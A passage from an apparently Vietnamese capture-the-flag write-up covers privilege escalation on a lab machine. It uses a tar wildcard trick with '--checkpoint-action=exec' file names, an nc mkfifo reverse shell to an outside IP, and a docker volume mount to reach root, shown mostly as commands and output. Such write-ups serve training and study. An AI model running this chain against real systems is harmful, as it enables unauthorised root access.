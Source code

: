 ## Privilege escalation

`sudo -l`

```python
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
jake@the-marketplace:~$ cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

Điều này có nghĩa là tôi có thể thêm payload vào file *backup.sh* để khi chạy file này, payload sẽ gọi đến user *michael*. Thêm 1 điều nữa, khi chạy file *backup.sh*, nó sẽ sinh ra 1 file tar. Tôi có nhớ có 1 exploit với tar, nó ở [đây](https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/Tar%20commands%20execution)

Đầu tiên vẫn phải tạo file shell mới chứa payload, sau đó sẽ dùng exploit với tar. Sau đó tạo listener với port 9001: `nc -lnvp 9001` 

Và nó sẽ giống như thế này

```python
jake@the-marketplace:/opt/backups$ echo '#!/bin/bash' > shell.sh
jake@the-marketplace:/opt/backups$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.18.3.74 9001 >/tmp/f' > shell.sh
jake@the-marketplace:/opt/backups$ chmod +x shell.sh
jake@the-marketplace:/opt/backups$ touch '/opt/backups/--checkpoint=1'
jake@the-marketplace:/opt/backups$ touch '/opt/backups/--checkpoint-action=exec=sh shell.sh'
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh
Backing up files...
rm: cannot remove '/tmp/f': No such file or directory
```

Sang phía listener

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.18.3.74] from (UNKNOWN) [10.10.171.7] 40864
michael@the-marketplace:/opt/backups$ 
michael@the-marketplace:/opt/backups$ cd
michael@the-marketplace:~$ cd /home/michael/
michael@the-marketplace:/home/michael$ id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```

User *michael* có trong group *docker*. Tôi sẽ thử vào [GTFOBins](https://gtfobins.github.io) xem cách leo thang đặc quyền với *docker*. Với group *docker* tôi sẽ sử dụng SUID

```python
michael@the-marketplace:~$ /usr/bin/docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# ls /root/
root.txt
# 
```

Hoàn thành!
